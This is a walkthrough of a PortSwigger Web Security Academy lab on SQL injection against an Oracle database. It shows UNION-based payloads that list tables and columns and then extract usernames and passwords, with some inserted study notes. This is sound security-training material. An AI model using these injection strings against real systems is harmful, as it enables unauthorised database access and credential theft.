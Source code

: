 # Write-up: SQL injection attack, listing the database contents on Oracle @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection attack, listing the database contents on Oracle* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)

## Lab description

![Lab description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Oracle, which holds the table information in the `all_tables`-table. In the [relevant documentation](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D), the available columns are listed. 

I am interested in `table_name`. So I inject `' UNION SELECT table_name, null from all_tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from all_tables--'`
```
// 📝 USER_"CAN_BE_DIFFERENT_EACH_TIME" – JUST LOOK FOR "USER_" THAT’S THE USER TABLE

// 📝 TAKE NOTE OF THE USER_NAME TABLE



![name of the users table](img/found_users_table.png)

### Enumerate columns in this table

The [all_tab_columns](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63)-table holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--` to form this query

// 📝 REPLACE TABLE NAME ACCORDINGLY

 ```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--'`
```
// 📝 NOTE DOWN THE USERNAME AND PASSWORD COLUMN NAMES YOU SEE

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

// 📝 REPLACE USER, PASSWORD, AND TABLE NAME WITH THE ONES YOU FOUND ABOVE

Now I have all information to obtain the required usernames and passwords. I inject `' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--'`
```

![usernames and passwords](img/username_and_passwords.png)

The last step is to simply log in to solve this exercise.

![success](img/success.png)
